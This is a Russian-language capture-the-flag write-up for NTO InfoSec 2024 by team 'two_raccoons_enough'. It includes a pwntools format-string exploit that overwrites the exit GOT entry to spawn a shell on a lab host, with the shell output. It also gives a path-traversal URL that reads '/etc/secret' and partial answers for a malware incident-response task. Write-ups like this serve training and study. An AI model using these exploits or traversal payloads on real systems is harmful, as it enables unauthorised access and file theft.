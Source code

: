 # NTO-InfoSec-2024-writeups
# Команда "two_raccoons_enough"
____
# Task based
## PWN
### 10 баллов
Залив исходники в дизассемблер, мы можем заметить функцию `win()`, которая возвращает  `/bin/sh`, способный дать нам контроль над машиной. В функции `main()` содержится memory unsafe `printf(format: &var_418)`, уязвимая к f-strings. 
```shell
┌──(kali㉿KaliOlymp)-[~/Downloads]
└─$ nc 192.168.12.13 1923        
%x %x %x %x
78252078 fbad2088 15a62ac 0
```
Проверив эту гипотезу, мы приступили к редактированию кода, который использовался в райтапах на подобную задачу, [найденного на CTFTime](https://ctftime.org/writeup/33272).
```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('ubume.crewctf-2022.crewc.tf', 1337)
    else:
        return process(e.path)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Этот код не работал и не совсем подходил для нашего таска, поэтому пришлось его отредактировать
```python
from pwn import *


binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF("/home/kali/Desktop/main")
r = ROP(e)

gs = '''
continue
'''

def start():
    return remote('192.168.12.13', 1923)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Эксплоит успешно передал управление функции `win()`, которая дала нам полный доступ к уязвимой машине
```shell
┌──(kali㉿KaliOlymp)-[~/Desktop]
└─$ python exploit.py -h ./main
[*] '/home/kali/Desktop/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 4 cached gadgets for '/home/kali/Desktop/main'
[+] Opening connection to 192.168.12.13 on port 1923: Done
[*] Switching to interactive mode
```
```shell
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
main
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
nto{easy_formt_string}
$  
```
Мы получили флаг: **nto{easy_formt_string}**
____
## Web 
### 10 баллов
На сайте мы сразу же видим число 20, на которое можно нажать. Нажав мы видим `Hint_1 maybe in etc/secret ???`.
Это явный намёк на LFI. Просто меняем путь в строке на http://192.168.12.10:5001/download?file_type=../../../../etc/secret и получаем флаг:
**nto{P6t9_T77v6RsA1}**
____
## Crypto
### 10 баллов
____
## Расследование инцидента
____
### Машина на Windows
____
#### Вопросы
- [X] Каким образом вредоносное ПО попало на компьютер пользователя? Стоимость: 5
- [x] С какого сервера была скачана полезная нагрузка? Стоимость: 5
- [x] С помощью какой уязвимости данное ВПО запустилось? В каком ПО? Стоимость: 5
- [x] Какие методы противодействия отладке использует программа? Стоимость: 10
- [x] Какой алгоритм шифрования используется при шифровании данных? Стоимость: 10
- [ ] Какой ключ шифрования используется при шифровании данных? Стоимость: 25
- [ ] Куда злоумышленник отсылает собранные данные? Каким образом он аутентифицируется на endpoint? Стоимость: 20
- [ ] Каково содержимое расшифрованного файла pass.txt на рабочем столе? Стоимость: 40
____
#### Ответы
 + `Вредоносное ПО было загружено из фишингового письма по почтовой рассылке`
 + `Подробности на скрине` ![9db72216-d991-4b9e-8c0a-d85e8c3f1560_Screenshot_2024-03-21_15-38-04](https://github.com/STALIN-DEV/NTO-InfoSec-2024-writeups/assets/63879793/b5f2e878-a705-41dd-8707-783f7566b5d7)
 + `Запустилось в WinRar(е) . Открыв приложение LastActivityView находим что прямо перед тем как запустился Rjomba.exe Запустился винрар и вызвалась командная строка. Подробности на скрине` ![71f20a33-1011-42fb-b6d9-d7bd25b93d85_Screenshot_2024-03-21_17-43-19](https://github.com/STALIN-DEV/NTO-InfoSec-2024-writeups/assets/63879793/0d5de590-41aa-4686-ae00-9400ea387b1d)
 + `Вирус моментально закрывает процесс монитор и процесс хакер`
 + `Вирус использует алгоритм блочного шифрования AES CBC` 

